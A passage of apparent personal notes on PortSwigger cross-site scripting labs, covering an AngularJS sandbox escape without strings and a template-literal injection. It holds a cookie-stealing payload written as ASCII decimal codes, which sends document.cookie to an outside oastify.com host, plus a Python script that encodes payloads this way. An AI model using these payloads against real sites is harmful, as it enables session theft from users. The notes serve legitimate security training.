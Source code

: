 ```
120,61,102,101,116,99,104,40,39,104,116,116,112,115,58,47,47,103,112,57,111,49,56,57,51,106,97,107,49,100,122,101,55,117,116,118,50,114,107,118,114,48,105,54,57,117,122,105,111,46,111,97,115,116,105,102,121,46,99,111,109,47,63,122,61,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41
```

> Python script to convert any payload to ASCIII decimal values:

```python
import sys

print('Python String to ASCII Converter!')
if len(sys.argv) != 2:
    print("Usage: Python ascii_converter.py 'Payload_String'")
    sys.exit(1)

input_string = sys.argv[1]
ascii_values = [str(ord(char)) for char in input_string]

output = ",".join(ascii_values)
print(output)
print('PortSwigger Expert Academy Labs!')
```

> Cookie Stealer Payload in ASCII decimal value AngularJS expression run through sandbox, from the PortSwigger solution steps:

1. The exploit uses `toString()` to create a string without using quotes.
2. Then gets the String prototype and overwrites the `charAt` function for every string.
3. This breaks the AngularJS sandbox. allow an array passed to the `orderBy` filter.
4. Set the argument for the filter by again using `toString()` to create a string and the String constructor property.
5. Finally, use the `fromCharCode` method generate our payload by converting character codes into the payload example `x=alert(1)`.
6. The `charAt` function has been overwritten, AngularJS will allow this code to escape the **Sandbox**.

> [PortSwigger Expert Lab: Reflected XSS with AngularJS sandbox escape without strings](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-without-strings)

#### XSS Template Literal

> JavaScript template literal is _**identified**_ by the back ticks **\`** used to contain the string. On the target code we _**identify**_ the search string is reflected inside a template literal string.

```
${alert(document.cookie)}
```

> I fail to get a working cookie stealer bypassing all the filters for this lab......

[PortSwigger Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-template-literal-angle-brackets-single-double-quotes-backslash-backticks-escaped)
